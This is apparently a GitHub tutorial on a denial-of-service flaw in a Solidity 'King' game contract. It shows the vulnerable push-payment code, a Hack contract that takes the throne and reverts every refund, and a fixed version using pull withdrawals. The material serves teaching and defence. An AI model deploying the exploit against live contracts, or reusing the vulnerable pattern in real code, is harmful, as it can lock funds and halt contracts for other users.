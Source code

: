 # Smart_contract_security

DOS attack on a smart contract.

We will see how a contract  which rejects accepting ether is used to trigger a DOS attack on a smart contract .
We will also see a contract with similar functionality , but which is not vulnerable to DOS attacks.

"The King contract is a simple game where participants can become the king by sending more Ether than the current prize. The contract keeps track of the current king, the prize, and the contract owner."
```bash
contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() payable {
    owner = payable(msg.sender);
    king = payable(msg.sender);
    prize = msg.value;
  }

  receive() external payable {
    _becomeKing();
  }

  function becomeKing() external payable {
    _becomeKing();
  }

  function _becomeKing() internal {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value); //transfer method sends the specified amount of Ether and reverts the transaction if the transfer fails
    king = payable(msg.sender);
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}


```




State Variables

Here, king is the address of the current king, prize is the amount of Ether needed to become the king, and owner is the contract owner.

Constructor

The constructor sets the initial owner and king to the contract creator, and the initial prize to the Ether sent during contract deployment.

Receive Function

The receive function is triggered when the contract receives Ether, calling the internal _becomeKing function to update the king.

Become King Function

Participants can also explicitly call becomeKing to attempt to become the king. The _becomeKing function checks if the sent Ether is at least the current prize, transfers the Ether to the current king, and updates the king and prize.


The Vulnerability

The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

Let's see how this vulnerability can be exploited with the Hack contract.



The vulnerability lies in the king.transfer(msg.value) line. If the king is a contract that reverts on receiving Ether, the transfer will fail, causing a Denial of Service.

## Exploiting this vulnerability with a hack contract
```bash
contract Hack {
constructor(address payable target) payable {
    uint prize = King(target).prize();
       (bool ok,) = target.call{value: prize}("");
        require(ok, "tx failed");
    }
fallback() external payable {

    revert();
}

function withdraw() external {
       payable(msg.sender).transfer(address(this).balance);
   }

}
```

The Hack contract exploits the vulnerability by becoming the king and then blocking any subsequent Ether transfers.The constructor sends enough Ether to the King contract to become the king.The fallback function always reverts, preventing any Ether transfer to the Hack contract, thus causing the DoS.

# Mitigating the Vulnerability

Updated version of the King contract 

```bash
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract King {
    address payable public king;
    uint public prize;
    address payable public owner;

    mapping(address => uint) public pendingWithdrawals;

    event NewKing(address indexed newKing, uint prize);

    constructor() payable {
        owner = payable(msg.sender);
        king = payable(msg.sender);
        prize = msg.value;
    }

    receive() external payable {
        _becomeKing();
    }

    function becomeKing() public payable {
        _becomeKing();
    }

    function _becomeKing() internal {
        require(msg.value >= prize || msg.sender == owner, "Insufficient value to become the king");
        
        if (king != address(0)) {
            pendingWithdrawals[king] += prize;
        }
        
        king = payable(msg.sender);
        prize = msg.value;

        emit NewKing(msg.sender, msg.value);
    }

    function withdraw() public {
        uint amount = pendingWithdrawals[msg.sender];
        require(amount > 0, "No funds to withdraw");

        pendingWithdrawals[msg.sender] = 0;
        (bool success, ) = msg.sender.call{value: amount}("");
        require(success, "Withdrawal failed");
    }

    function _king() public view returns (address payable) {
        return king;
    }
}
```
This updated version of the King contract includes a mitigation against the DoS with revert vulnerability. Instead of transferring Ether directly to the previous king using transfer, it uses a pull payment mechanism. The previous king can withdraw their prize at their convenience.

The mapping function in this context is used to create a record of pending withdrawals for each address that has Ether to be claimed. It ensures that Ether owed to previous kings is stored and can be withdrawn later, rather than being transferred immediately when a new king is crowned. This avoids the risk of blocking the contract if the recipient rejects the transfer.

